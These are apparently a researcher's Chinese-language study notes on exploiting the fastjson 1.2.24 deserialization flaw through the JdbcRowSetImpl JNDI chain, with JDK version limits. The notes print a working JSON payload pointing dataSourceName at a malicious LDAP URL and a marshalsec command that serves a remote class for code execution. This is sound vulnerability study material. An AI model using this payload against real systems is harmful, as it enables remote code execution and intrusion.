



# fastjson-1.2.24

* ## **JdbcRowSetImpl**

上文的`TemplatesImpl`链存在严重限制，即`JSON.parse()`需要开启`Feature.SupportNonPublicField`

`JdbcRowSetImpl`链是基于JNDI+RMI或JDNI+LADP进行攻击，会有一定的JDK版本限制。

> RMI利用的JDK版本≤ JDK 6u132、7u122、8u113
>
> LADP利用JDK版本≤ 6u211 、7u201、8u191

`com.sun.rowset.JdbcRowSetImpl`

当`conn == null`时，调用`connect()`

经典的`(new InitialContext()).lookup()`，那么只要dataSourceName设为恶意远程RMI服务或ldap服务即可。

> { 
>
> ​	"@type":"com.sun.rowset.JdbcRowSetImpl",
>
> ​	"dataSourceName":"ldap://127.0.0.1:8099/evil", 
>
> ​	"autoCommit":true 
>
> }

利用marshalsec开启ldap服务

> java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#calc 8099

